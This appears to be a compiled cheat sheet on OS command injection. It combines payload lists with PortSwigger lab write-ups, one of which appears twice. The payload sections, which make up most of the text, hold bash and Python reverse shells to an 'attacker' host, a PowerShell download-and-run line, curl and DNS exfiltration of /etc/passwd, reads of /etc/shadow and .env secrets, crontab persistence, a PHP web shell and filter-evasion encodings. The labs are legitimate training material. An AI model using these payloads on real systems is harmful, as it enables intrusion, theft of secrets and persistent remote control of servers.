# **✅ OS Command Injection – Complete Test Case (with Bypass Cases)**
---
# **1. List of Vulnerabilities**
```
1.1 Basic Command Injection
1.2 Blind Command Injection
1.3 Chained Command Execution (&&, |, ;)
1.4 Command Injection via Substitution ($(), backticks)
1.5 Injection in System Calls (exec, system, popen)
1.6 File-Based Injection (/bin/sh -c)
1.7 Windows Shell Injection (cmd.exe)
1.8 Out-of-Band (OOB) Exfiltration
1.9 WAF/Sanitizer Bypass via Encoding
1.10 Obfuscated/RCE Payloads (Base64, Hex, Unicode)
```

---

# **2. Sample Payloads (Core Attack Payloads)**

*(Basic learning/test payloads)*

```
2.1 Basic Linux Command Injection
; id
```

```
2.2 Chained Command Execution
&& whoami
```

```
2.3 Using Pipe Operator
| uname -a
```

```
2.4 Sub-shell Injection
$(id)
```

```
2.5 Backtick Execution
`id`
```

```
2.6 Blind Injection Checker
; sleep 5
```

```
2.7 Windows Command Injection
& dir
```

```
2.8 Write File Test
; echo TEST > /tmp/test.txt
```

```
2.9 DNS OOB Injection
; nslookup attacker.com
```

```
2.10 Curl-Based Callback
; curl attacker.com/ping
```

---

# **3. Sample Payloads (Updated With Real Payloads for Learning)**

*(Common real-world offensive OS command injection strings)*

```
3.1 Full System Enumeration
; id; uname -a; whoami
```

```
3.2 Shadow File Extraction
; cat /etc/shadow
```

```
3.3 Reverse Shell Payload (Bash)
; bash -i >& /dev/tcp/attacker/4444 0>&1
```

```
3.4 Python Reverse Shell
; python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("attacker",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

```
3.5 Node.js RCE Payload
; node -e "require('child_process').exec('id',console.log)"
```

```
3.6 Windows Reverse Shell
& powershell -NoP -NonI -W Hidden -Exec Bypass "IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')"
```

```
3.7 Base64 Encoded Command Execution
; echo aWQ= | base64 -d | bash
```

```
3.8 getenv Dump
; printenv
```

```
3.9 Internal Network Discovery
; ping -c 1 127.0.0.1
```

```
3.10 Data Exfiltration (Curl)
; curl -F "file=@/etc/passwd" attacker/upload
```

---

# **4. Bypass Techniques (Filters, Encoding, WAF Evasion)**

*(Bypass payload list only)*

```
4.1 Whitespace Bypass
;${IFS}id
```

```
4.2 IFS Injection (No Space)
id${IFS}-a
```

```
4.3 URL Encoded Injection
%3B%20id
```

```
4.4 Double URL Encoded Injection
%253B%2520id
```

```
4.5 Semi-colon Removal Bypass
|id
```

```
4.6 Comment Truncation Bypass
;id# 
```

```
4.7 Substitution Bypass
`id`
```

```
4.8 Tab Bypass
;	id
```

```
4.9 Base64 Obfuscation
; echo aWQ= | base64 -d
```

```
4.10 Environment Variable Execution
$PATH
```

---

# **5. Advanced Attack Chains (Real-World Exploitation)**

```
5.1 Command Injection → Reverse Shell → Full Access
; bash -i >& /dev/tcp/attacker/4444 0>&1
```

```
5.2 Command Injection → Read Secrets → API Key Theft
; cat /var/www/app/.env
```

```
5.3 Command Injection → Pivoting Internal Network
; nmap -sV 172.16.0.1
```

```
5.4 File Write → Web Shell Deployment
; echo "<?php system($_GET['cmd']); ?>" > /var/www/html/shell.php
```

```
5.5 Blind Command Injection → DNS Exfiltration
; nslookup `cat /etc/passwd` attacker.com
```

```
5.6 Command Injection → Crontab Persistence
; echo "* * * * * bash -i >& /dev/tcp/attacker/4444 0>&1" >> /etc/crontab
```

```
5.7 Command Injection → Kernel Enumeration → PrivEsc Prep
; uname -a; cat /proc/version; id
```

01 OS command injection, simple case
====================================

This lab contains an OS command injection vulnerability in the product stock
checker.

The application executes a shell command containing user-supplied product and
store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the
current user.

References:

-   https://portswigger.net/web-security/os-command-injection







~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

productId=1&storeId=1;whoami
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



02 Blind OS command injection with time delays
==============================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause
a 10 second delay.

References:

-   https://portswigger.net/web-security/os-command-injection



There is a function to submit feedback:



The vulnerability affects the fields “Name”, “Email” and “Message”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
"; ping -c 127.0.0.1; echo "a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



03 Blind OS command injection with output redirection
=====================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The output from the command is not returned in the response. However, you can
use output redirection to capture the output from the command. There is a
writable folder at /var/www/images/.

The application serves the images for the product catalog from this location.
You can redirect the output from the injected command to a file in this folder,
and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

Reference: https://portswigger.net/web-security/os-command-injection



Generated link:
https://0a19003c045b2b62809bd0800086001d.web-security-academy.net/

There is a functionality for submitting feedback:



And the images are retrieved with a GET request:



We need to execute:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whoami > /var/www/images/whoami.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I sent the POST request to intruder and set 3 fields to attack in Sniper mode:



Then I added 3 payloads:



When we add payloads to the field subject the website returns an error:



We get the username “peter-5fYwD0” after a GET to "/image?filename=whoami.txt",
so the intruder attack worked:





04 Blind OS command injection with out-of-band interaction
==========================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The command is executed asynchronously and has no effect on the application's
response. It is not possible to redirect output into a location that you can
access. However, you can trigger out-of-band interactions with an external
domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue
a DNS lookup to Burp Collaborator.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/os-command-injection

-   https://book.hacktricks.xyz/pentesting-web/command-injection



There is a function to submit feedback:



In this case the command injection is achieved with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
`nslookup 7s0qd0oqa0r71b9pewc0nu7a41asynmc.oastify.com`
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





05 Blind OS command injection with out-of-band data exfiltration
================================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The command is executed asynchronously and has no effect on the application's
response. It is not possible to redirect output into a location that you can
access. However, you can trigger out-of-band interactions with an external
domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS
query to Burp Collaborator. You will need to enter the name of the current user
to complete the lab.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/os-command-injection



There is a function to submit feedback. It allows out-of-band interaction with
the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$(nslookup juh2fcq2cctj3nb1g8ecp69m6dc400op.oastify.com)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We get the username ("peter-0B6BNY") using the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$(nslookup `whoami`.m1o5mfx5jf0maqi4nblfw9gpdgj774vt.oastify.com)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~






# 22 - Blind OS command injection with output redirection

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at /var/www/images/.

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

---------------------------------------------

Reference: https://portswigger.net/web-security/os-command-injection


---------------------------------------------

Generated link: https://0a19003c045b2b62809bd0800086001d.web-security-academy.net/

There is a functionality for submitting feedback:


And the images are retrieved with a GET request:


We need to execute:

```
whoami > /var/www/images/whoami.txt
```

I sent the POST request to intruder and set 3 fields to attack in Sniper mode:


Then I added 3 payloads:


When we add payloads to the field subject the website returns an error:


We get the username “peter-5fYwD0” after a GET to "/image?filename=whoami.txt", so the intruder attack worked:


Below is the **OS Command Injection – Complete Bypass Payload List**, written in the **same format** as your previous ones (Host Header / CORS / XXE / SSRF / HTTP Request Smuggling).

This includes **classic payloads, blind payloads, filter bypass, encoding bypass, separator bypass, function-based bypass, chained injections**, and **real exploitation payloads used in red-team & bug bounty**.

---

# ⭐ **OS Command Injection – Complete Bypass Payload List**

---

# **1. Core Command Injection Payloads**

### **Basic Injection**

```
; whoami
&& whoami
| whoami
```

### **Append Commands**

```
test; id
test && id
test | id
```

---

# **2. Conditional Execution**

```
test || whoami
1 & whoami
```

---

# **3. Chained Injection Payloads**

```
whoami; uname -a
id && cat /etc/passwd
```

---

# **4. Blind Command Injection Payloads**

### **Time Delay**

```
; sleep 5
&& ping -c 5 127.0.0.1
| timeout 5
```

### **Out-of-Band (DNS/HTTP)**

```
; nslookup attacker.com
; curl http://attacker.com/`whoami`
```

---

# **5. Special Character Bypass Payloads**

### **Common Separators**

```
; id
& id
&& id
| id
|| id
%0a id
%26 id
```

### **Whitespace Bypass**

```
${IFS}id
$IFS$id
id%09
id$IFS
```

---

# **6. Environment Variable Bypass**

```
${PATH}
$(whoami)
${HOME}
`id`
```

---

# **7. Subshell Execution Bypass**

```
`id`
$(id)
$((id))
```

---

# **8. Encoding Bypass Payloads**

### **URL Encoded**

```
%3Bcat%20/etc/passwd
%26whoami
```

### **Double URL Encoding**

```
%253Bcat%2520/etc/passwd
```

### **Base64 Execution**

```
echo cGluZyAtYyAxIDx3aG9hbWk+Cg== | base64 -d | bash
```

---

# **9. Space Bypass Techniques**

### **Using IFS**

```
cat${IFS}/etc/passwd
ls${IFS}-la
```

### **Using Tabs**

```
cat	/etc/passwd
```

### **Using $IFS$9**

```
cat$IFS$9/etc/passwd
```

---

# **10. Command Injection via File Write**

```
; echo 'malware' > /tmp/pwned
```

---

# **11. Command Injection via Pipes**

```
| curl http://attacker.com/`hostname`
| nc attacker.com 4444 -e /bin/sh
```

---

# **12. Restricted Character Bypass**

### **Using Wildcards**

```
ls /etc/pas*wd
c?t /etc/passwd
```

### **Using Hex Encoding in Bash**

```
$'\x69\x64'
```

---

# **13. Filter Bypass via Command Substitution**

```
a=$(id)
a=`id`
```

---

# **14. Using Built-In Shell Variables**

```
$0
$$
$UID
$USER
```

---

# **15. Using Shorthand Commands**

```
id<1
id>1
id<>1
```

---

